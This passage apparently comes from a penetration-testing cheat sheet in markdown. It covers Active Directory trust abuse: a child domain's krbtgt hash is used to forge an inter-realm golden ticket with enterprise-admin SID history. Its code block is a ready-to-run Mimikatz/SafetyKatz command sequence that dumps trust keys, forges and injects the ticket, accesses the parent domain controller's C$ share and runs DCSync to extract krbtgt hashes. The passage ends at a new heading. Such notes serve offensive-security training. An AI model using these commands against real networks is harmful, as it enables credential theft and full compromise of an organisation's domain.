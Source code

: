 ### Tool - Using krbtgt hash of the child domain

{% code overflow="wrap" %}
```powershell
SafetyKatz on DC
lsadump ::trust /patch'

Invoke-mimikatz -command '"kerberos::golden /user:Administrator /domain:sub.dom.local /sid:sid-of-current-domain /sids:sid-of-enterprise-admins-group-of-parent-domain /krbtgt:hash-of-krbtgt /ticket:C:\save-ticket-here.kirbi'"
or
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:sub.dom.local /sid:sid-of-current-domain /sids:sid-of-enterprise-admins-group-of-parent-domain /krbtgt:krbtgt-hash /ptt" "exit"

On any machine
Invoke-Mimikatz -command '"kerberos::ptt C:\save-ticket-here.kirbi'"
ls \\parent-dc.dom.local\c$
gwmi -class win32_operatingsystem -ComputerName dc-praent.local
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:parentdom\krbtgt /domain:parentdom.local" "exit"

Run DC Sync
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:forestname\krbtgt /domain:forest.local" "exit"


Rest, see above
```
{% endcode %}



## Trust Abuse Across Forest

### Description
